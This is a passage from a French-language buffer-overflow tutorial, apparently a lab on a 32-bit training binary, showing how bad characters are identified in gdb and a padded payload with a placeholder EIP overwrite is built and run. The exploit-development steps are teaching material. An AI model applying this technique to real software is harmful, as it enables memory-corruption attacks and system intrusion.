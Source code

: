 #### La pile

La pile

```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba : 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
0xffffd5c2 : 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
# |----| <- "\x09" attendu

0xffffd5ca : 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
<SNIP>

```

Ici, cela dépend de l'ordre correct de nos octets dans la variable `CHARS` pour voir si un caractère change, interrompt ou saute l'ordre. Maintenant, nous reconnaissons qu'après le "`\x08`", nous rencontrons le "`\x00`" au lieu du "`\x09`" comme prévu. Cela nous indique que ce caractère n'est pas autorisé ici et doit être supprimé en conséquence.

#### Remarques

Remarques

```
# Soustrayez le nombre de caractères supprimés
Tampon = "\x55" * (1040 - 254 - 4) = 782

# "\x00" & "\x09" supprimés : 256 - 2 = 254 octets
  CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff"

    EIP = "\x66" * 4

```

#### Envoyer CHARS - Sans "\x00" & "\x09"

Envoyer CHARS - Sans "\x00" & "\x09"

```
(gdb) exécutez $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP >...\xfc\xfd\xfe\xff" + "\x66" * 4')

Le programme en cours de débogage a déjà été lancé.
Commencer depuis le début ? (o ou n) o

Programme de démarrage : /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a \x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Point d'arrêt 1, 0x56555551 dans bowfunc ()

```

#### La pile
